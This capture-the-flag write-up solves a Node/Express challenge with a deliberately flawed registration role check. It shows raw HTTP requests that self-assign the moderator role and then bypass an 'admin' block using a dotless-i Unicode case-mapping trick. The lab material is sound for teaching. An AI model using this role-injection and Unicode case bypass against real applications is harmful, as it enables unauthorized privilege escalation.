

This challenge provides JavaScript source code.

```js
const express = require('express')
const path = require('path')
const crypto = require('crypto');
const bodyParser = require('body-parser');
const app = express()
const port = 1337
const users = []

setTimeout(() => process.exit(0), 1000 * 60 * 15);

const cats = [
    // cats go here its not important to the chall
];

app.use(bodyParser.json());

app.post('/api/login', (req, res) => {
    const user = users.find(u => u.username == req.body.username && u.password == req.body.password);

    if(!user) 
        return res.status(401).send('Invalid credentials');
    
    res.json(user);
})

app.post('/api/register', (req, res) => {

    const existingUser = users.find(u => u.username == req.body.username);
    if(existingUser)
        return res.status(400).send('User already exists');

    if(req.body.role?.toLowerCase() == 'admin')
        return res.status(400).send('Invalid role');

    const user = {
        username: req.body.username.substring(0, 20),
        password: req.body.password.substring(0, 20),
        token: crypto.randomBytes(32).toString('hex'),
        role: req.body.role.substring(0, 20) || 'user'
    }

    users.push(user);

    res.json(user);
})

app.use("/", express.static(path.join(__dirname, 'public')));

app.use((req, res, next) => {
    const token = req.headers["x-token"];
    const user = users.find(u => u.token == token);

    if(!user)
        return res.status(401).send('Unauthorized');

    req.user = user;
    next();
})

app.get('/api/message', (req, res) => {
    if(req.user.role.toUpperCase() === 'ADMIN')
        return res.json({ message: `Hi Admin! Your flag is ${process.env.ADMIN_FLAG}` });
    
    if(req.user.role.toUpperCase() === 'MODERATOR')
        return res.json({ message: `Hi Mod! Your flag is ${process.env.MODERATOR_FLAG}` });

    res.json({ message: `Hello ${req.user.username}` });
})

app.get('/api/cats', (req, res) => {
    res.json(cats);
})

app.post('/api/cats/:id/comment', (req, res) => {
    const cat = cats.find(c => c.id == req.params.id);

    if(!cat)
        return res.status(404).send('Cat not found');

    cat.comments.push({ user: req.user.username, text: req.body.text.substring(0, 200) });

    res.json(cat);
})

app.use((err, req, res, next) => {
    console.log(err);
    res.status(500).send('What?');
});

app.listen(port, () => {
  console.log(`App listening on port ${port}`)
})
```

Initial takeaways:
- Using express as a webserver
- One flag at moderator level, one at admin level.
- Most of the endpoints are uninteresting from a security perspective (cats are still very interesting)
- When registering we can specify our role!

Looking at the registration endpoint in further depth:
```js
app.post('/api/register', (req, res) => {

    const existingUser = users.find(u => u.username == req.body.username);
    if(existingUser)
        return res.status(400).send('User already exists');

    if(req.body.role?.toLowerCase() == 'admin')
        return res.status(400).send('Invalid role');

    const user = {
        username: req.body.username.substring(0, 20),
        password: req.body.password.substring(0, 20),
        token: crypto.randomBytes(32).toString('hex'),
        role: req.body.role.substring(0, 20) || 'user'
    }

    users.push(user);

    res.json(user);
})
```

We can specify our role and if we don't it defaults to `user`.

## Flag 1

Can we get the first flag by specifying the `moderator` role and privilege escalate to above `user`? This would be a RBAC issue and give us the flag!

Let's use Burp Suite to capture a registration request and modify it:
```
POST /api/register HTTP/2
Host: escatlate-52bc47e034fa.1753ctf.com
Accept: */*
Content-Type: application/json
Content-Length: 70

{"username":"sealldevmod","password":"sealldevmod","role":"moderator"}
```

In this case we modified the role to `moderator`, and the application responds with our token:

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8

{"username":"sealldevmod","password":"sealldevmod","token":"9ed37e9b1007e71de705b9e4315fc866cabd4250d78eb2f7fe197a5d3dc14e22","role":"moderator"}
```

We can then login with the creds `sealldevmod:sealldevmod` and retrieve the flag from `/api/message`:
```
GET /api/message HTTP/2
Host: escatlate-52bc47e034fa.1753ctf.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
X-Token: 9ed37e9b1007e71de705b9e4315fc866cabd4250d78eb2f7fe197a5d3dc14e22
```

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 84

{"message":"Hi Mod! Your flag is 1753c{0h_my_g0d_h0w_c0uld_1_m1ss_thi1_r0l3_ch3ck}"}
```

Flag: `1753c{0h_my_g0d_h0w_c0uld_1_m1ss_thi1_r0l3_ch3ck}`

## Flag 2

> This is a post-solve, we did not solve it during the competition!

In this case we need to get to admin, but we can see the registration has a new protection:

```js
if(req.body.role?.toLowerCase() == 'admin')
        return res.status(400).send('Invalid role');
```

This means there's no way to get to admin... or is there?

Checking how `/api/message` checks the role:
```js
if(req.user.role.toUpperCase() === 'ADMIN')
        return res.json({ message: `Hi Admin! Your flag is ${process.env.ADMIN_FLAG}` });
```

Therefore, we need a string that `toLowerCase()` does not match `admin`, while `toUpperCase()` matches `ADMIN`.

> This is where we got stuck!

From the official writeups, it suggests we use a **Unicode character!**

There is a lookup of lookalikes on the Unicode website: Unicode Confusables.

With some testing none of these work...

But looking at awesome-unicode there is a section for [uppercase tranformation collisions](https://github.com/jagracey/Awesome-Unicode?tab=readme-ov-file#collision-uppercase-transformation-collisions)

We can see there is one for `ı`!



We can now do the same bypass as before. Burp Suite can be a bit strange when copy-pasting the unicode character, sometimes converting it to a `1`, make sure to be careful!

```
POST /api/register HTTP/2
Host: escatlate-52bc47e034fa.1753ctf.com
Accept: */*
Content-Type: application/json
Content-Length: 89

{"username":"sealldev-administrator","password":"sealldev-administrator","role":"admın"}
```

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 160

{"username":"sealldev-administrat","password":"sealldev-administrat","token":"2c04c37702bb1707363dfa5f49d868dd4139ed7404e4a25f4cc3478ae56eda2b","role":"admın"}
```

After registering, we use the token to retrieve the message again:
```
GET /api/message HTTP/2
Host: escatlate-52bc47e034fa.1753ctf.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
X-Token: 2c04c37702bb1707363dfa5f49d868dd4139ed7404e4a25f4cc3478ae56eda2b

```

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 79

{"message":"Hi Admin! Your flag is 1753c{w3ll_n0w_th4h_w4s_n0t_soooo_obv1ous}"}
```

Flag: `1753c{w3ll_n0w_th4h_w4s_n0t_soooo_obv1ous}`